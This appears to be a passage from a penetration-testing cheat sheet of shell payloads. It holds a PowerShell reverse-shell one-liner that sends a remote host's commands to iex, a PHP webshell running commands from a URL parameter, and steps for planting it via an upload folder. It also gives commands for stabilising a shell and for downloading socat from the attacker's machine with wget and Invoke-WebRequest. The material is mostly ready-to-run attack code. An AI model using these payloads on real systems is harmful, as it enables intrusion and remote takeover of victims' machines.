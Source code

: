 ````powershell
powershell -c “$client = New-Object System.Net.Sockets.TCPClient(‘<ip>’,<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘> ‘;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()”
````

### PHP Webshell one-liner:
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

need to trigger rev-shell -> find upload folder -> add to url-path `http://<ip>/<path>/php_shell.php?cmd=<rev_shell>`

### Shell Stabilisation:

    1. Python (sometimes need to specify python version in first cmd)
        python -c 'import pty;pty.spawn("/bin/bash")'
        export TERM=xterm
        Ctrl + Z
        stty raw -echo; fg

    2. Rlwrap
        install rlwrap first on your kali:
        sudo apt install rlwrap

        invoke this listener:
            rlwrap nc -lnvp <port_number>
            CTRL + Z
            stty raw -echo; fg

    3. Socat
        1. Start Webserver on attacker machine(with Socat installed) in the directory of the binary.
            sudo python -m http.server <port>
        2. Use the Netcat reverse shell to download Socat.
            Linux: wget <attack_ip>/socat -o /tmp/socat
            Powershell: Invoke-WebRequest -uri <attack_ip>/socat.exe -outfile C:\\Windows\temp\socat.exe 
        3. Check permissions and execute socat.

    4. /usr/bin/scripts
        /usr/bin/script -qc /bin/bash /dev/null
        export TERM=xterm
        Ctrl + Z
        stty raw -echo; fg
    

    General Adjustments:
        open terminal on own machine and use 'stty -a'
        check in the output the values for rows and columns
        use 'stty rows <number>' and 'stty cols <number>' on rev/bind shell

## 5. Linux Privilege Escalation:

